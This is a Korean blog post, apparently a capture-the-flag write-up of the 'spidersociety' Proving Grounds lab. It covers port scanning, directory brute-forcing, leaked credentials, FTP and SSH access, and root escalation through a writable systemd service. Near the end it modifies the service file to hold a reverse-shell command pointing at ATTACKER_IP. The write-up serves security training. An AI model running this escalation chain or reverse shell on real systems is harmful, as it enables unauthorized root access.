








---
layout: post
title:  "[PG][Linux] spidersociety"
date:   2026-11-08 12:11:00 +09:00
featured: /assets/images/oscp-pg/linux/spidersociety/image.png
categories: PG Linux
---## 정보 수집

nmap으로 포트 스캔을 수행함.
```
└─$ nmap 192.168.170.214 -Pn -n --min-rate 3000 --open -oN scan
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-14 07:26 EDT
Nmap scan report for 192.168.170.214
Host is up (0.17s latency).
Not shown: 969 filtered tcp ports (no-response), 28 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2121/tcp open  ccproxy-ftp

Nmap done: 1 IP address (1 host up) scanned in 1.06 seconds
```

80포트 접근 시 Spider Society이라는 웹이 접근되며, 우측 상단 login버튼 클릭 시 404 에러가 뜸.



처음에 common.txt로 디렉토리 서치할 경우 안나왔던 경로가 확인.
```
└─$ gobuster dir -u 192.168.170.214 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.170.214
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 319] [--> http://192.168.170.214/images/]
/server-status        (Status: 403) [Size: 280]
/libspider            (Status: 301) [Size: 322] [--> http://192.168.170.214/libspider/]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

/libspider 경로에 접근 하게되면 로그인 페이지로 리다이렉트됨.


계정은 admin:admin이였음.


Communications 버튼 클릭 시 사용자 계정이 모달 창에 노출이됨.

```
Username: ss_ftpbckuser
Password: ss_WeLoveSpiderSociety_From_Tech_Dept5937!
```

ftp 2121 포트에 ss_ftpbckuser계정으로 로그인이 가능했음.
```
└─$ ftp ss_ftpbckuser@192.168.170.214 2121
Connected to 192.168.170.214.
220 (vsFTPd 3.0.5)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40918|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            1391 Apr 14  2025 404.html
drwxr-xr-x    2 0        0            4096 Apr 14  2025 images
-rwxr-xr-x    1 0        0            4317 Apr 14  2025 index.html
drwxr-xr-x    2 0        0            4096 Apr 14  2025 libspider
-rwxr-xr-x    1 0        0            1345 Apr 14  2025 simple.py
226 Directory send OK.
ftp>
```

libspider 경로의 fetch-credentials.php에서 또 다른 경로 발견함.
```
└─$ cat fetch-credentials.php

<?php
// fetch-credentials.php

// Path to the credentials file
$credentialsFile = __DIR__ . '/.fuhfjkzbdsfuybefzmdbbzdcbhjzdbcukbdvbsdvuibdvnbdvenv';

// Function to parse the credentials file
function getCredentials($filePath) {
    if (!file_exists($filePath)) {
        die('Credentials file not found.');
    }
```

위에서 발견한 경로에 접근하면 DB Connect을 발견 할 수 있음.

```
DB_CONNECT_USER=spidey
DB_CONNECT_PASS=WithGreatPowerComesGreatSecurity99!
```

해당 계정으로 ssh 접근이 가능하였으며, 초기 침투 성공함.


spiderbackup.service 파일을 재시작할 수 있는 sudo 권한이 있는 것을 확인.
```
spidey@spidersociety:~$ sudo -l
Matching Defaults entries for spidey on spidersociety:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User spidey may run the following commands on spidersociety:
    (ALL) NOPASSWD: /bin/systemctl restart spiderbackup.service
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) !/bin/bash, !/bin/sh, !/bin/su, !/usr/bin/sudo
```

```
spidey@spidersociety:~$ find / -name "spiderbackup.service" 2>/dev/null
/etc/systemd/system/multi-user.target.wants/spiderbackup.service
/etc/systemd/system/spiderbackup.service
spidey@spidersociety:~$ ls -al /etc/systemd/system/spiderbackup.service
-rw-rw-r-- 1 spidey spidey 193 Apr 14  2025 /etc/systemd/system/spiderbackup.service
spidey@spidersociety:~$ cat /etc/systemd/system/spiderbackup.service
[Unit]
Description=Spider Society Backup Service
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/spiderbackup.sh
User=root
Group=root

[Install]
WantedBy=multi-user.target
```
```
spidey@spidersociety:~$ cat /etc/systemd/system/spiderbackup.service
[Unit]
Description=Spider Society Backup Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c "sh -i >& /dev/tcp/ATTACKER_IP/9988 0>&1"
User=root
Group=root

[Install]
WantedBy=multi-user.target
spidey@spidersociety:~$ sudo /bin/systemctl daemon-reload
spidey@spidersociety:~$ sudo /bin/systemctl restart spiderbackup.service
```


